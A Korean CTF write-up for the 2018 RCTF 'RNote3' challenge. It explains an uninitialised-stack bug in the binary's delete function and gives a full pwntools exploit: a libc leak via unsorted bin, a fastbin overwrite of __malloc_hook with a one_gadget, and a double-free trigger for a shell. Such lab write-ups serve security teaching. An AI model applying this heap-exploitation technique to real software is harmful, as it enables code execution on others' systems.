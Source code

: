```yaml
---
title: "2018 RCTF RNote3"
date: 2020-3-6
ctf: RCTF
layout: post
published : false
---
```




ptr이라는 변수를 초기화해주지 않고 있어서 `uninitailize stack` 이 발생한다.

```c
unsigned __int64 delete()
{
  size_t v0; // rdx
  signed int i; // [rsp+4h] [rbp-1Ch]
  void **ptr; // [rsp+8h] [rbp-18h]
  char s1; // [rsp+10h] [rbp-10h]
  unsigned __int64 v5; // [rsp+18h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  printf("please input note title: ");
  read_(&s1, &byte_8, v0);
  for ( i = 0; i <= 31; ++i )
  {
    if ( note2[i] && !strncmp(&s1, note2[i], 8uLL) )
    {
      ptr = note2[i];
      break;
    }
  }
  if ( ptr )
  {
    free(ptr[2]);
    free(ptr);
    note2[i] = 0LL;
  }
  else
  {
    puts("not a valid title");
  }
  return __readfsqword(0x28u) ^ v5;
}
```

자세히보면 view, edit, delete 함수 모두 같은 스택 구조를 가지고 있다. 근데 delete함수에서는 ptr값을 초기화해주지 않는다. 그러므로 `uninitailize stack` 취약점이 터진다. 그래서 delete 함수에서 힙포인터를 담고 있는 전역변수를 0으로 초기화 시키지 않을 수 있다. 이런식으로 unsorted bin attack으로 libc leak해주고 UAF로 fd에 __malloc_hook - 35를 넣고 이후 청크 하나 생성하고 또 하나 생성해서 hook 덮어주면 된다. 그리고 Double Free로 트리거해주면 된다. 

> exploit.py

```python
from pwn import *

# context.log_level = 'debug'
e = ELF('./RNote3')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
p = process('./RNote3',aslr=True)
sl = lambda x : p.sendline(x)
sa = lambda x,y : p.sendafter(x,y)
sla = lambda x,y : p.sendlineafter(x,y)
note = 0x0000000000202040
note2 = 0x0000000000202060

def add(title,size,content):
	sl('1')
	sa('please input title:',title)
	sla('please input content size:',str(size))
	sa('please input content:',content)

def view(title):
	sl('2')
	sa('please input note title: ',title)

def edit(title,content):
	sl('3')
	sa('please input note title:',title)
	sa('please input new content: ',content)

def delete(title):
	sl('4')
	sa('please input note title: ',title)

add('A\n',0xa0,'a\n') 
add('B\n',0xa0,'b\n')

view('A\n') 
delete('!\n') # uninitailize stack
view('\n')

p.recvuntil('content: ')
libc_base = u64(p.recv(6).ljust(8,'\x00')) - 0x3c4b78
log.info('libc_base : {}'.format(hex(libc_base)))
malloc_hook = libc_base + libc.symbols['__malloc_hook']
log.info('__malloc_hook : {}'.format(hex(malloc_hook)))

add('C\n',0xa0,'c\n')
add('D\n',0x68,'d\n')
add('E\n',0x68,'e\n')

view('D\n')
delete('!\n') # uninitailize stack
edit('\n',p64(malloc_hook-35)+'\n')

add('F\n',0x68,'f\n')
add('G\n',0x68,'A'*19+p64(libc_base + 0xf02a4)+'\n')

delete('E\n')
delete('E\n')

p.interactive()
```

